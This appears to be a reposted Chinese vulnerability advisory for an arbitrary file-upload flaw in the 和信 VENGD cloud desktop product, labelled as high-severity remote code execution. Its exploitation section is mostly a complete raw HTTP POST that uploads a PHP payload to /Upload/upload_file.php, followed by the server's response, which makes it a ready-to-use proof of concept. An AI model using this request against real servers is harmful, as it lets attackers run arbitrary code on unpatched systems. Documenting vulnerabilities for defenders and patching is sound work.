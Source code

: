 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/k2izoeQjDnMLSj5eP0R9XQ)

漏洞描述
----

和信下一代云桌面系统（VENGD），是国内的基于 NGD(Next Generation Desktop) 架构的桌面虚拟化产品，它融合了 VDI、VOI、IDV 三大架构优势，实现了前后端混合计算，在调度服务器后端计算资源的同时更能充分利用前端资源，HVV 活动中出现此漏洞。

漏洞编号
----

*   无
    

利用类型
----

远程

漏洞分类
----

*   php
    

适用版本
----

无

标签
--

*   php
    
*   CMS
    
*   RCE
    

发布日期
----

2021.04.19

漏洞等级
----

高危

漏洞原理
----

暂无

漏洞利用
----

### 利用脚本

暂无

### 利用方法

```
POST /Upload/upload_file.php?l=test HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 184

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; 
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--
```

```
HTTP/1.1 200 OK
Date: Mon, 26 Apr 2021 15:00:16 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Content-Length: 18
Connection: close
Content-Type: text/html; charset=UTF-8

_Requst:<br>
```

### 利用过程

![](https://mmbiz.qpic.cn/mmbiz_png/qjS1tDsz9MXuOsJZsvNKBRKWaExkkP9qngreVO4Zv7qr9Hic7PDLArQ9iaiaFF0zmiazgKRdlEHL9KhuOIPvZTskkQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/qjS1tDsz9MXuOsJZsvNKBRKWaExkkP9qU5Rzk7fPCfnU4abQH7FbEk0W6xoibOgSmzibtKKYibc5UKDZYTbMzJvew/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/qjS1tDsz9MXuOsJZsvNKBRKWaExkkP9qkMUEVicPnicK552ReU0HEYmBYkaygkBYB7zBQPd7blicMV6u1LibChXT4Q/640?wx_fmt=png)

参考链接  

-------

*   https://www.seebug.org/vuldb/vulnerabilities?has_poc=true
    

*   https://blog.csdn.net/weixin_44146996/article/details/115611026